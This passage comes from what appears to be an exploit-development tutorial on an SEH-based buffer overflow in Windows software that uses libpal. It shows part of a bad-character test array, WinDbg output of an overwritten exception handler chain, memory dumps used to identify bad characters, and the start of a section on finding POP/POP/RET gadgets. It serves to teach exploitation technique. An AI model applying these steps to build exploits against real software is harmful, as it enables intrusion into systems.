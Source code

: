 ```python
    b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
    b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
    b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
    b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
...
```

Run the PoC with our bunch of hexadecimal characters. 

After causing the crash, continue the execution flow to reach EIP and locate our bunch of hexadecimal chars.

```bash

0:009> dds esp L8
0184f440  77e25b32 ntdll!ExecuteHandler2+0x26
0184f444  0184f540
0184f448  0184ff44 #<= Exception Handler
0184f44c  0184f55c
0184f450  0184f4cc
0184f454  0184fe0c
0184f458  77e25b50 ntdll!ExecuteHandler2+0x44
0184f45c  0184ff44

0:009> !exchain
0184f454: ntdll!ExecuteHandler2+44 (77e25b50)
0184fe0c: libpal!md5_starts+149fb (0090df5b)
0184ff44: 42424242
Invalid exception stack at 41414141

```

We can see that the address point to the exception handler, where we overwritten with our four B, read the memory of it.

```bash
0:009> db 0184ff44
0184ff44  41 41 41 41 42 42 42 42-01 00 00 00 ec 07 8c 00  AAAABBBB........
0184ff54  10 3e 8c 00 58 38 e1 00-72 40 8c 00 60 84 e1 00  .>..X8..r@..`...
0184ff64  58 38 e1 00 24 3e 8c 00-60 84 e1 00 10 3e 8c 00  X8..$>..`....>..
0184ff74  39 cf 42 76 58 38 e1 00-20 cf 42 76 dc ff 84 01  9.BvX8.. .Bv....
0184ff84  a5 26 da 77 58 38 e1 00-34 50 34 32 00 00 00 00  .&.wX8..4P42....
0184ff94  00 00 00 00 58 38 e1 00-00 00 00 00 00 00 00 00  ....X8..........
0184ffa4  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0184ffb4  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
```

We can see that we locate our hexadecimal characters, and find that after the char "0x01" our buffer is truncated, meaning that "0x02" is a bad character.

Now that our characters are located, repeat the step above until found all bad characters.

### 6. Finding a P/P/R Instructions.<a name="PPR"></a>

First, we need to find a module without protection that didnt containt any bad characters.
